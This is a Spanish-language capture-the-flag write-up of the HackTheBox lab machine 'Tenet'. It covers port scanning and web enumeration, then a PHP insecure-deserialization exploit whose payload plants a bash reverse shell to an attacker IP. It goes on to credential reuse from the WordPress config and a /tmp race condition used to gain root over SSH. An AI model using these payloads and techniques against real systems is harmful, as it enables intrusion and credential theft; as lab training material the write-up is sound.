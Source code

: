 ```yaml
---
title: "Tenet - HackTheBox"
layout: single
excerpt: Este es el "Write-Up" de la máquina **Tenet** de la plataforma HackTheBox, esta máquina me pareció muy interesante basándonos en los ataques que hay que realizar para su intrusión, la escalada de privilegios me gusto bastante...
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/124811978-5c67e080-df63-11eb-9379-d161423b49a6.png"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/124811978-5c67e080-df63-11eb-9379-d161423b49a6.png"
categories:
  - HackTheBox
tags:
  - deserialization attack
  - WordPress
  - SSH
---
```


![image (15)](https://user-images.githubusercontent.com/69093629/124811978-5c67e080-df63-11eb-9379-d161423b49a6.png)

Empece haciendo un escaneo con *Nmap* de los puertos y servicios que tiene abiertos la máquina.

```bash 
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ nmap -sS --min-rate=5000 -p- -v -Pn -n 10.10.10.223 -oG allPorts
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-13 15:15 CEST
Initiating SYN Stealth Scan at 15:15
Scanning 10.10.10.223 [65535 ports]
Discovered open port 22/tcp on 10.10.10.223
Discovered open port 80/tcp on 10.10.10.223
Completed SYN Stealth Scan at 15:16, 13.01s elapsed (65535 total ports)
Nmap scan report for 10.10.10.223
Host is up (0.087s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.16 seconds
           Raw packets sent: 65595 (2.886MB) | Rcvd: 65535 (2.621MB)
``` 

Tiene dos puertos abiertos, el primero de SSH y el segundo es un servidor web que corre por su puerto predeterminado, hice otro escaneo para ver la versión de cada servicio.

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ nmap -sC -sV -p22,80 10.10.10.223 -oN targeted                  
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-13 15:16 CEST
Nmap scan report for tenet.htb (10.10.10.223)
Host is up (0.047s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.6
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Tenet
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.00 seconds
```

**Nmap** me reporto que estaba frente a un **WordPress**, quise verificar eso, para ello utilice "WhatWeb".

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ whatweb http://10.10.10.223/                                                                                   
http://10.10.10.223/ [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.223], Title[Apache2 Ubuntu Default Page: It works]
```

"WhatWeb" no me lo reporto, pero efectivamente estaba ante un WordPress, también hice un "Fuzzing" con "Gobuster" para ver si me encontraba algún directorio potencial.

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ gobuster dir -u "http://10.10.10.223/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.223/
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/06/13 15:18:35 Starting gobuster
===============================================================
/wordpress (Status: 301)
Progress: 2467 / 220562 (1.12%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2021/06/13 15:18:45 Finished
===============================================================
```

Efectivamente pude confirmar que era un WordPress, me fui a la página para ver que había.

![Captura de pantalla (551)](https://user-images.githubusercontent.com/69093629/121888429-437b5f00-cd18-11eb-8fbc-6124a90535a7.png)

Al parecer se estaba aplicando "Virtual Hosting" y no estába apuntando al dominio que tiene alojado el host, mire el código fuente y **tenet.htb** es el dominio desde el que estaba apuntando el host.

![Captura de pantalla (552)](https://user-images.githubusercontent.com/69093629/121809327-ac9d9c80-cc5c-11eb-86ec-86d08fb0ff60.png)

Simplemente lo incluí en */etc/hosts* para que apunte al host y poder ver lo que tenía.

![Captura de pantalla (553)](https://user-images.githubusercontent.com/69093629/121809395-e53d7600-cc5c-11eb-96a8-f48f9f4990ba.png)

Ahora si pude ver lo que contenía realmente.

![Captura de pantalla (554)](https://user-images.githubusercontent.com/69093629/121809429-09995280-cc5d-11eb-8196-1d61333f3fbc.png)

Encontré un usuario potencial.

![Captura de pantalla (556)](https://user-images.githubusercontent.com/69093629/121810092-b5dc3880-cc5f-11eb-9c75-65a03d80cc77.png)

Quise probarlo en WordPress, ya que te permite la enumeración de usuarios.

![Captura de pantalla (557)](https://user-images.githubusercontent.com/69093629/121810121-d73d2480-cc5f-11eb-8d43-8f2577c303a7.png)

El usuario era válido, pensé en hacer fuerza bruta, pero quería indagar más en la página, también vi este comentario que me llamo mucho la atención.

![Captura de pantalla (525)](https://user-images.githubusercontent.com/69093629/121810193-1ec3b080-cc60-11eb-9e2b-5cf7e51df2ec.png)

Probando distintas cosas, llegue a dar con la conclusión de que **sator** es un subdominio de **tenet.htb**, lo incluí en el */etc/hosts*.

![Captura de pantalla (558)](https://user-images.githubusercontent.com/69093629/121810525-84fd0300-cc61-11eb-9ae0-81f2499e2876.png)

En el comentario también mencionaba algo de PHP junto a sator, probé a unirlos y ver si era una archivo PHP, al parecer si lo era, esto es lo que tenía.

![Captura de pantalla (559)](https://user-images.githubusercontent.com/69093629/121810575-c097cd00-cc61-11eb-9343-1315250f0b4e.png)

El comentario hablaba de un "backup", por lo que me dio por probar añadir un **.bak** al archivo **sator.php** y me descargo un archivo.

![Captura de pantalla (560)](https://user-images.githubusercontent.com/69093629/121810801-7cf19300-cc62-11eb-8b51-214000faa57a.png)

Le hice un cat para ver su contenido.

![Captura de pantalla (561)](https://user-images.githubusercontent.com/69093629/121810890-c4781f00-cc62-11eb-858a-9d3d04939eb0.png)

Al parecer era el código fuente de **sator.php**, esto me iba a permitir plantear más bien el siguiente paso de la intrusión, el código lo que hace es recibir un input desde el parámetro arepo y lo deserializa, esto era un ataque de deserializacion insegura por *PHP* como una casa, ahora lo que tenía que hacer es crear el código malicioso serializado para que en la deserializacion ejecute mi sentencia maliciosa en *PHP*, en este caso una reverse shell por netcat.

Este es el código PHP que utilice para la serialización.

```php
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ php --interactive
php > class DatabaseExport {
php > public $user_file = 'shell.php';
php > public $data = '<?php shell_exec("bash -c \'bash -i >& /dev/tcp/10.10.16.5/443 0>&1\'"); ?>'; }
php > print urlencode(serialize(new DatabaseExport));
```

Una vez serializado lo introduje en el input de "arepo" (**http://10.10.10.223/sator.php?arepo={code_serialize}**)

![Captura de pantalla (562)](https://user-images.githubusercontent.com/69093629/121811486-d8248500-cc64-11eb-8952-d1bb204c05f7.png)

Y me otorgo una shell por netcat.

![Captura de pantalla (563)](https://user-images.githubusercontent.com/69093629/121811527-fe4a2500-cc64-11eb-9b57-35ba4ddc8005.png)

Hice un tratamiento de la TTY e intenté visualizar la "flag" de "user" pero no tenía permisos, me tenía que convertir en el usuario neil.

![Captura de pantalla (568)](https://user-images.githubusercontent.com/69093629/121811909-330aac00-cc66-11eb-8df0-6212cfa8fb17.png)

Recordé que estaba tratando con un WordPress, así que busque y visualice su archivo de configuración que contiene la contraseña.

![Captura de pantalla (566)](https://user-images.githubusercontent.com/69093629/121811799-c2638f80-cc65-11eb-8424-6a3229250d21.png)

Probé a autenticarme como neil y funciono.

![Captura de pantalla (567)](https://user-images.githubusercontent.com/69093629/121811843-f048d400-cc65-11eb-8cd8-69c4e0a8808c.png)

Visualice la "flag", ahora solo faltaba la escalada de privilegios, hice un ```sudo -l``` para ver si se podía ejecutar algo como el usuario ROOT y me encontré un script.

![Captura de pantalla (569)](https://user-images.githubusercontent.com/69093629/121812543-867df980-cc68-11eb-8464-ef7c9e43149e.png)

Le hice un "cat" a la ruta absoluta con ```xargs``` para ver que es lo que hacía.

![Captura de pantalla (570)](https://user-images.githubusercontent.com/69093629/121812621-cba22b80-cc68-11eb-9977-c543435c1d0d.png)

Lo que hace el script es crear una clave **id_rsa.pub** y alojarla en */tmp/ssh-{**XXXXX**}->*(**caracteres aleatorios**) y luego copia el contenido del archivo en **known_hosts**. Si tenemos la capacidad de incluir nuestra clave publica en */tmp* antes de que se copie a **known_hosts** podremos iniciar en SSH como el usuario ROOT. Para ello hice uso del siguiente comando en una ventana autenticado en SSH como el usuario neil.

```bash
neil@tenet~$ while true; do echo "{SSH_PUBLIC} | tee /tmp/ssh* > /dev/null; done"
```

![Captura de pantalla (571)](https://user-images.githubusercontent.com/69093629/121813113-eaa1bd00-cc6a-11eb-8235-9326d8776daf.png)

Y en otra ventana con SSH como el usuario neil le di permisos de ejecución al script y lo ejecute recursivamente unas cuantas veces.

![Captura de pantalla (572)](https://user-images.githubusercontent.com/69093629/121813150-03aa6e00-cc6b-11eb-8d89-c1c7fb70cb0c.png)

```bash
neil@tenet~$ sudo ./usr/local/bin/enableSSH.sh
```

y...

![Captura de pantalla (573)](https://user-images.githubusercontent.com/69093629/121813339-e1fdb680-cc6b-11eb-8add-2755686ea960.jpg)





